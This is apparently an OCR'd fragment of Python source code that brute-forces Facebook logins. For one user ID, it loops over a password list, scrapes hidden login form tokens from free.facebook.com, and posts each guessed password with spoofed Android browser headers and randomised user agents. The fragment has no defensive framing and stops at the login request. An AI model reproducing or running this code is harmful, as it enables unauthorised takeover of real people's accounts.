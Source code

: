		for ps in pwx:

			session = requests.Session()

			pro = random.choice(agents)

			free_fb = session.get('https://free.facebook.com').text

			log_data = {

				"lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),

			"jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

			"m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

			"li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

			"try_number":"0",

			"unrecognized_tries":"0",

			"email":uid,

			"pass":ps,

			"login":"Log In"}

			header_freefb = {'authority': 'x.facebook.com',
			
            'method': 'POST',
            
			'scheme': 'https',
			
			'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			
			'accept-encoding':'utf-8','accept-language': 'en-US,en;q=0.9',
			
			'accept-language': 'en-US,en;q=0.9',
			
			'cache-control': 'max-age=0',
			
			'sec-ch-ua': '"Chromium";v="104", " Not A;Brand";v="99", "Google Chrome";v="104"',
			
			'sec-ch-ua-mobile': '?1',
			
			'sec-ch-ua-platform': '"Android"',
			
			'sec-fetch-dest': 'document',
			
			'sec-fetch-mode': 'navigate',
			
			'sec-fetch-site': 'none',
			
			'sec-fetch-user': '?1',
			
			'upgrade-insecure-requests': '1',
			
			'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0.1; vivo Y55 Build/MMB29M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/98.0.4758.101 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/383.0.0.23.106',}

			lo = session.post('https://x.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text
